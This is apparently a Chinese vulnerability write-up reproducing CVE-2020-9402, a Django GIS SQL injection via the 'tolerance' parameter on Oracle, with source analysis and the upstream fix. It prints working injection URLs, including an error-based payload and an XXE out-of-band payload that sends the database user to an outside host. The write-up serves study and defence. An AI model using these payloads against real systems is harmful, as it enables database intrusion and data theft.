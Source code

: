 （CVE-2020-9402）Django Geo sql注入
===================================

一、漏洞简介
------------

Django
1.11.29之前的1.11.x版本、2.2.11之前的2.2.x版本和3.0.4之前的3.0.x版本中存在SQL注入漏洞。攻击者可借助特制的SQL语句利用该漏洞查看、添加、修改或删除数据库中的信息。

二、漏洞影响
------------

Django
1.11.29之前的1.11.x版本、2.2.11之前的2.2.x版本和3.0.4之前的3.0.x版本中存在SQL注入漏洞

三、复现过程
------------

根据官网的修复https://github.com/django/django/commit/6695d29b1c1ce979725816295a26ecc64ae0e927\#diff-229e38ececbfc591f7a5e595bf5707c4，可以看到问题出在GIS的查询上面

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-9402)DjangoGeosql注入/media/rId24.png)

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-9402)DjangoGeosql注入/media/rId25.png)

官方只修复了这两个位置，可以发现基本上是对于`tolerance`参数进行判断是否为数字。那首先来了解一下GIS查询。

GIS查询API是一个地理位置的查询API，提供用户存储精确GPS的位置的数据模块，属于一个空间数据库，我们可以通过如下的经纬度信息

    pnt = GEOSGeometry('POINT(-96.876369 29.905320)', srid=4326)

    >>>SRID=4326;POINT (-96.876369 29.90532)

来获得一个具体的定位信息,通过如下的模块来构建一个基本的地理信息存储

    from django.contrib.gis.db import models
    class Names(models.Model):
        name = models.CharField(max_length=128)

        def __str__(self):
            return self.name

    class Interstate(Names):
        path = models.LineStringField()

后台存储的时候发出path的信息为json数据，例如

    {"type":"LineString","coordinates":[[-8167.236601807093,-3286.248045708844],[-7896.285624495958,-3324.9553281818644],[1083.8039092445451,-654.1528375435246]]}

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-9402)DjangoGeosql注入/media/rId26.png)

我们就获得了一个基本的地理位置数据,同理，通过构造一个聚合的查询方法

    def vuln(request):
        q = request.GET.get('q')
        qs=Interstate.objects.annotate(
                d=Distance(
                    Point(-0.0733675346842369, -0.0295208671625432, srid=4326),
                    Point(0.009735976166628611, -0.00587635491086091, srid=4326),
                    tolerance = q, # default 0.05
                ),
            ).filter(d=D(m=1)).values('name')

因为官网文档找不到如何构造Point查询，因此为了省事，直接写死了Point数值。。srid为空间参考的投影设置，默认值为4326。其中`tolerance`是对于oracle特殊存在的一个键值，其作用是基本你的容错率，详细的信息可以参考[oracle官方文档](https://docs.oracle.com/en/database/oracle/oracle-database/18/spatl/spatial-concepts.html#GUID-CE10AB14-D5EA-43BA-A647-DAC9EEF41EE6)。对应的查询语句为

    SELECT "APP_NAMEDMODEL"."NAME" FROM "APP_INTERSTATE" INNER JOIN "APP_NAMEDMODEL" ON ("APP_INTERSTATE"."NAMEDMODEL_PTR_ID" = "APP_NAMEDMODEL"."ID") WHERE SDO_GEOM.SDO_DISTANCE(SDO_GEOMETRY(POINT (-0.0733675346842369 -0.0295208671625432),4326), SDO_GEOMETRY(POINT (0.009735976166628611 -0.00587635491086091),4326), 0.05) =  1.0 FETCH FIRST 21 ROWS ONLY;

**0x02代码分析**首先从传入一个url

    http://127.0.0.1:8000/vuln/?q=20) = 1 OR 1=1 OR (1%2B1

从`annotate`聚合函数开始跟进，同普通的model函数查询一样，gis查询虽然拥有着单独的model模块，但依旧还是依靠着普通model中进行过滤和查询。从gis的model文件夹中的`__init__.py`文件中看

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-9402)DjangoGeosql注入/media/rId28.png)

主要的查询依然调用的是django最基本的db方法，而其中单独定义了`function`方法等一些对地理位置插叙独特的方法。程序运行到`/django/db/models/manager.py`文件中的`_get_queryset_methods`后，获取到tolerant参数之后便直接进入到gis模块中进行查询

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-9402)DjangoGeosql注入/media/rId29.png)

继而进入到`django/contrib/gis/measure.py`文件中的`MeasureBase`类中进行方法调用，那么后面的方法分析可以跳过，因此直接来到漏洞代码段。先来看gis
API中的functions函数，在as\_oracle方法这一段

    def as_oracle(self, compiler, connection, **extra_context):
        tol = self.extra.get('tolerance', self.tolerance)
        return self.as_sql(
            compiler, connection,
            template="%%(function)s(%%(expressions)s, %s)" % tol,
            **extra_context
        )

`tolerance`
从self.extra.get导入，该方法会搜索全局变量的值，如果该值不存在，则直接设置为0.05，并且将其直接传入到新的变量中。之后则不对tol进行任何处理直接拼接到template字符串中并且传入`as_sql`方法。那么官方对于as\_sql的文档是，此方法需要一个SQLCompiler对象，位于`django/db/models/sql/compiler.py`文件中。而我们只需要知道在该对象中有一个`compile()`方法，该方法可以返回一个包含SQL字符串的元祖，而SQLComiler对象中的query变量则是存储直接进行SQL查询语句的SQL命令。从而两个Point分别进入`compile`方法中进行拼接

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-9402)DjangoGeosql注入/media/rId30.png)

不知道为什么，用pycharm在as\_oracle下断点的时候，第一次到达SQLCompiler的时候，pycharm不会在as\_oracle函数中停下来，而是在第二次查询的时候才会停，但是经过测试确实是在进入SQLCompiler之前调用过as\_orcle函数，可能是pycharm没有正确识别重载函数吧。之后template构造模版也因此进入到`expression.py`中的as\_sql函数中进行字符串构造

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-9402)DjangoGeosql注入/media/rId31.png)

因此最后进入oracle的命令语句是

    SELECT "APP_NAMEDMODEL"."NAME" FROM "APP_INTERSTATE" INNER JOIN "APP_NAMEDMODEL" ON ("APP_INTERSTATE"."NAMEDMODEL_PTR_ID" = "APP_NAMEDMODEL"."ID") WHERE SDO_GEOM.SDO_DISTANCE(SDO_GEOMETRY(POINT (-0.0733675346842369 -0.0295208671625432),4326), SDO_GEOMETRY(POINT (0.009735976166628611 -0.00587635491086091),4326), 0.05) = 1 OR 1=1  OR (1+1) = 1.0 FETCH FIRST 21 ROWS ONLY;

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-9402)DjangoGeosql注入/media/rId32.png)

带入数据库中查询

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-9402)DjangoGeosql注入/media/rId33.png)

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-9402)DjangoGeosql注入/media/rId34.png)

官方修复的方法就是加入Value函数，判断传入的值是否为数字，否的话直接报错推出。那么第二个注入点就是`Union`了，建立Model

    class City(Names):
        point = models.PointField()  # 点模块

编辑传入的参数为

    {"type":"Point","coordinates":[13250.226757682816,68815.69380603009]}

view中设置查询

    from django.contrib.gis.db.models import Union
    def vuln2(request):
        q = request.GET.get('q')
        res = City.objects.aggregate(
                Union('point', tolerance=q),
        )
        return HttpResponse(res)

输入url

    http://127.0.0.1:8000/vuln2?q=0.05)))%2C%20(((1

首先看结果，得到的SQL查询语句为

    SELECT SDO_UTIL.TO_WKBGEOMETRY(SDO_AGGR_UNION(SDOAGGRTYPE("APP_CITY"."POINT",0.05))), (((1))) AS "POINT__UNION" FROM "APP_CITY";

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-9402)DjangoGeosql注入/media/rId35.png)

该aggregate查询方法是GIS查询特定的一种查询方法，为的是与地理查询的语句做适配,用法跟原模块的方法类似。因此跟进GIS模块中的聚合查询方法，位于`django/contrib/gis/db/models/aggregates.py`文件内的as\_oracle方法。

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-9402)DjangoGeosql注入/media/rId36.png)

同样tolerance没有做任何检查直接传入了template模版语句中，原理与上面annotate查询过程一致。利用有大致两个方法报错注入

    http://localhost:8000/test/?q=20) = 1 OR (select utl_inaddr.get_host_name((SELECT version FROM v%24instance)) from dual) is null%20 OR (1%2B1

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-9402)DjangoGeosql注入/media/rId37.png)

CVE-2014-6577因为Django自2.0以后支持的oracle版本为12以上，因此可以尝试oracle
XXE来进行SQL的注入。同时因为在SQL处理的过程中有三次利用%的模版跳转，因此需要在XMLpayload中的%替换为%%%%，payload为

    http://localhost:8000/test/?q=20) = 1 OR (select%20extractvalue(xmltype('%3C%3Fxml%20version%3D%221.0%22%20encoding%3D%22UTF-8%22%3F%3E%3C!DOCTYPE%20root%20%5B%20%3C!ENTITY%20%25%25%25%25%20remote%20SYSTEM%20%22http%3A%2F%2Fdocker.for.mac.host.internal%3A9000%2F'%7C%7C(SELECT%20user%20from%20dual)%7C%7C'%22%3E%20%25%25%25%25remote%3B%5D%3E')%2C'%2Fl')%20from%20dual)%20is%20not%20null OR (1%2B1

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-9402)DjangoGeosql注入/media/rId38.png)

命令执的话因为是docker起的oracle所以没有设置JAVA的环境，暂时也不能判定有没有，以后再研究看看。

参考链接
--------

> https://xz.aliyun.com/t/7403
